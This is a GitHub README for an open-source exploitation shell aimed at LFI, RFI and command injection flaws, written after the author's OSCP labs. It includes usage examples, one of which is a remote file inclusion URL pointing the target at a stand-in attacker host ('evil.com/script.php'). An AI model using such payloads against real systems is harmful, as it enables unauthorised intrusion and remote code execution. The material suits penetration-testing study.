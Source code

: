 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting LFI, RFI, and command injection vulnerabilities.

Recently, I received some inspiration while working on my OSCP labs. I accidentally ended up writing this script, and it ended up helping me pwn a number of boxes in the labs.

Now that my labs are finished, I thought maybe other people could find this as useful as I have, so I decided to open source my tool.

## A few useful hints

To use shellfire, just fire it up via python (or add execute permissions and launch it directly). For example:

```
$ python shellfire.py
[*] ShellFire v0.1
[*] Type '.help' to see available commands
>>
```

You can type `.help` at any time for a list of available commands, or append the command you want to know more information about to help for specific details. For example `.help http`.

To start exploitation, you need to specify at least the URL of your target. Something like the following should work:

```
>> .url http://example.com/?path=http://evil.com/script.php
```

At this point, you should have enough to exploit easy vulnerabilities. You can simply start executing commands and they will be sent over to the target.

For more complex vulnerabilities, you may need to specify additional options. To exemplify, let's assume you needed to send a cookie with a session ID in order to exploit your target. You may want to add something like this:

```
>> .cookies { "session_id" : "123456789" }
```

Additional options, and information on how to use them, can be discovered by using the `.help` option in the shell.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!
